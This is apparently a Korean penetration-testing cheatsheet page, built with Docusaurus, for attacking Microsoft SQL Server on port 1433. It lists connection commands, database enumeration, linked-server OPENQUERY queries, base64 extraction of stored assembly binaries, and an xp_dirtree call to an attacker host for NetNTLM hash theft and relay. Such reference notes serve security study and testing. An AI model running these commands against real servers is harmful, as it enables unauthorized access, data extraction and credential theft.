

repository: naaamgi/my-docusaurus-page · page: cheatsheet/services/mssql/index.html · generator: docusaurus

---
sidebar_position: 7
---

# MSSQL - 1433

## 기본 정보

**포트**: 1433

Microsoft SQL Server는 Microsoft의 관계형 데이터베이스 관리 시스템입니다.

## 연결

```bash
# sqlcmd
sqlcmd -S <RHOST> -U <USERNAME> -P '<PASSWORD>'

# impacket-mssqlclient
impacket-mssqlclient <USERNAME>:<PASSWORD>@<RHOST> -windows-auth
```

## 기본 명령어

```sql
-- 버전 확인
SELECT @@version;

-- 데이터베이스 목록
SELECT name FROM sys.databases;
SELECT name FROM master.sys.databases;

-- 테이블 목록
SELECT * FROM <DATABASE>.information_schema.tables;

-- 테이블 내용 조회
SELECT * FROM <DATABASE>.dbo.users;
```

### 데이터베이스 내용 표시

```sql
1> SELECT name FROM master.sys.databases
2> go
```

## OPENQUERY

```sql
-- 데이터베이스 조회
1> select * from openquery("web\clients", 'select name from master.sys.databases');
2> go

-- 객체 조회
1> select * from openquery("web\clients", 'select name from clients.sys.objects');
2> go
```

## 바이너리 추출 (Base64)

```sql
1> select cast((select content from openquery([web\clients], 'select * from clients.sys.assembly_files') where assembly_id = 65536) as varbinary(max)) for xml path(''), binary base64;
2> go > export.txt
```

## NetNTLM Hash 탈취 / Relay 공격

```sql
SQL> exec master.dbo.xp_dirtree '\\<LHOST>\FOOBAR'
```
